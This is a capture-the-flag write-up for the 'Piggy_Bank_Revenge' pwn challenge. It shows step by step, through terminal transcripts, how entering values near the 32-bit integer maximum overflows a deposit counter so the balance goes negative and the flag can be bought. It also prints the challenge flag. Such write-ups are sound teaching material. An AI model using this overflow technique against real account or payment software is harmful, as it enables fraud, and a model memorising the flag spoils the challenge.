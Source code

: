# Piggy_Bank_Revenge

539, PWN, 51 SOLVES

### Description

Seems there was an issue with the previous implementation. I've introduced a HOTFIX that should prevent any further vulnerabilities. I've achieved an unhackable piggy bank now for sure.

nc chals.whitehacks.ctf.sg 20201

This will require a bit more knowledge about programming than Piggy Bank. Give it a try and learn something new(?)

### Attached Files
revenge
revenge.c

## Team
NYCP

## Category
Pwn

## Flag
`WH2021{(Don't)Try_th1s_0n_youR_B4nk!}`

## Steps

### Integer overflow

We are given the code. Since the deposit/withdraw value is stored as an integer, I started thinking about Integer overflows

We know the maximum value a C integer can hold is 2147483647

What if we tried putting in the maximum value?

Firstly I tried clearing the piggy bank value
```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 2

How much would you like to WITHDRAW?
> $1336

Piggy Bank value: $1.00
Wallet value:     $1436.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit
```

And then I experimented with the maximum integer value
```
Your choice: 1

How much would you like to DEPOSIT?
> $2147483647

Piggy Bank value: $0.00
Wallet value:     $1437.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $2147483647

Piggy Bank value: $-1.00
Wallet value:     $1438.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit
```

Ooh seems promising to have negative Piggy bank values. Let's test some more.

```
Your choice: 1

How much would you like to DEPOSIT?
> $2147483648
[-] Error: No negative values!

Piggy Bank value: $-1.00
Wallet value:     $1438.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $2147483646

Piggy Bank value: $-3.00
Wallet value:     $1440.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

With this we know that we can subtract a significant value from the piggy bank at once


### Scripting and Final Result

I coded a python script (`solve.py`) to put in the payload

```
[*] Switching to interactive mode
How much would you like to WITHDRAW?
> $
Piggy Bank value: $1.00
Wallet value:     $1436.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
How much would you like to DEPOSIT?
> $
Piggy Bank value: $-31337.00
Wallet value:     $32774.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
[*] Got EOF while reading in interactive
$           
```

